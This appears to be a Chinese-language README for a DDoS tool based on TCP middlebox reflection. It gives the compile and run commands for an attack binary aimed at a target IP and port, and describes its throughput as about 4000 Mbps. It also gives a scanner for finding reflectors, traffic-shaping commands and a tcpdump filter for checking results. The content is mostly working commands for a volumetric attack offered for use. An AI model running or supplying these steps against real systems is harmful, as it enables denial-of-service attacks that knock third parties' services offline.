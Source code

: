 ### 目录
    cd ddos/c_middle_box

### Attack
    gcc tcp.c -o tcp -pthread && ./tcp ip port packet.txt 2 20

- packet.txt 初始目录 约4000mbp/s

- 反射文件 为 ip:port


### 扫描
        gcc tcpscan.c -o tcpscan && ./tcpscan src_ip src_port packet.txt



### 用 tc 设置出口限速 10Mbps
        sudo tc qdisc add dev ens160 root tbf rate 10mbit burst 32kbit latency 400ms

### 如果之前设置过 tc，需要先清除：
        sudo tc qdisc del dev ens160 root


### 宁外一台服务器抓包
        tcpdump -t -nn tcp src port 80 and dst port 8000 and 'tcp[((tcp[12:1] & 0xf0) >> 2):4] != 0' -q

